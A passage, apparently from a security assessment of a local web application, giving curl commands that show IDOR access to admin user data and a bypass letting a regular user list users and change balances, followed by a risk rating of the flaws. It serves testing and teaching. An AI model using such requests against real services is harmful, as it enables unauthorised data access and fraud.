 ## Exploitation Examples

### Example 1: IDOR Exploitation
```bash
# Login and get token
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"testuser","password":"123"}'

# Use token to access admin user data
curl -X GET http://localhost:3000/api/user/[ADMIN_ID] \
  -H "Authorization: Bearer [TOKEN]"
```

### Example 2: Admin Access Bypass
```bash
# Access admin endpoint as regular user
curl -X GET http://localhost:3000/api/admin/users \
  -H "Authorization: Bearer [REGULAR_USER_TOKEN]"

# Modify user balance without admin privileges
curl -X POST http://localhost:3000/api/admin/modify-balance \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REGULAR_USER_TOKEN]" \
  -d '{"userId":"[TARGET_USER_ID]","newBalance":999999}'
```

## Risk Assessment

### High Risk Vulnerabilities
1. **IDOR (Insecure Direct Object References)**
   - Impact: Complete data exposure
   - Likelihood: Very High
   - Risk Level: Critical

2. **Missing Authorization Controls**
   - Impact: Privilege escalation to admin
   - Likelihood: Very High
   - Risk Level: Critical

3. **Weak JWT Implementation**
   - Impact: Account takeover
   - Likelihood: High
   - Risk Level: High

### Medium Risk Vulnerabilities
1. **Information Disclosure**
   - Impact: System fingerprinting
   - Likelihood: High
   - Risk Level: Medium
